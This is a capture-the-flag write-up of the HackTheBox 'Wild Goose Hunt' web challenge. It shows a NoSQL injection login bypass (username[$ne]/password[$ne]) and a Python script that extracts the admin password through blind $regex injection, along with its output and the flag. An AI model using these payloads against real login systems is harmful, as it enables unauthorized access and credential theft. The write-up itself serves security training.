



# CTF HackTheBox 2021 Cyber Apocalypse 2021 - Wild Goose Hunt

Category: Web, Points: 300



And attached file: [web_wild_goose_hunt.zip](web_wild_goose_hunt.zip)

# Wild Goose Hunt Solution

Let's start the docker and browse it:



We can see the website ask for username and password.

By observe the code from attached zip file [web_wild_goose_hunt.zip](web_wild_goose_hunt.zip) we can see the file moodles/User.js:
```js
const mongoose = require('mongoose');
const Schema   = mongoose.Schema;

let User = new Schema({
	username: {
		type: String
	},
	password: {
		type: String
	}
}, {
	collection: 'users'
});

module.exports = mongoose.model('User', User);
```

We can see it's used [mongoose](https://mongoosejs.com/), Let's try to intercept the login request using [BurpSuite](https://portswigger.net/burp):



Because we know the DB is mongoDB we can try [NoSQL Injection](https://www.netsparker.com/blog/web-security/what-is-nosql-injection/).

Let's try the simple payload:
```HTTP
POST /api/login HTTP/1.1
Host: 138.68.168.137:32704
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.68.168.137:32704/
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://138.68.168.137:32704
Content-Length: 33
DNT: 1
Connection: close

username[$ne]=1&password[$ne]=1
```

It's mean - give me all users from DB where username not equals to 1 and password not equals to 1, If we send it we get the following response:
```HTTP
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 62
ETag: W/"3e-BvDyP4u8qgWgGOMxzemBf6QGSBc"
Date: Thu, 22 Apr 2021 22:22:07 GMT
Connection: close

{"logged":1,"message":"Login Successful, welcome back admin."}
```

So It's mean we have user called admin.

We can now write python script to guess the user password by with blind NoSQL Injection ([Reference](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)):
```python
import requests
import string

URL="http://138.68.168.137:32634"

def guess_admin_password():
	password=""
	headers = {'Content-type': 'application/x-www-form-urlencoded;charset=UTF-8'}
	print("Starting...")
	for i in range(100): #maximun password lenth = 100
		for c in string.ascii_uppercase + string.ascii_lowercase + string.digits + '{_}':
			payload=f"username=admin&password[$regex]=^{password}{c}"
			r = requests.post(URL + "/api/login", data=payload, headers=headers)

			if "Successful" in r.text:
				password+=c
				print(password)
				if '}' in password:
					return
				break

guess_admin_password()
```

We send the following payload:
```python
payload=f"username=admin&password[$regex]=^{password}{c}"
```

It's mean, we find password of username admin started with guess charcter.

Run it (It may take 1-2 minutes):
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/wild_goose_hunt]
└──╼ $ python wild.python
Starting...
C
CH
CHT
CHTB
CHTB{
CHTB{1
CHTB{1_
CHTB{1_t
CHTB{1_th
CHTB{1_th1
...
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}
```

And we get the flag: ```CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}```.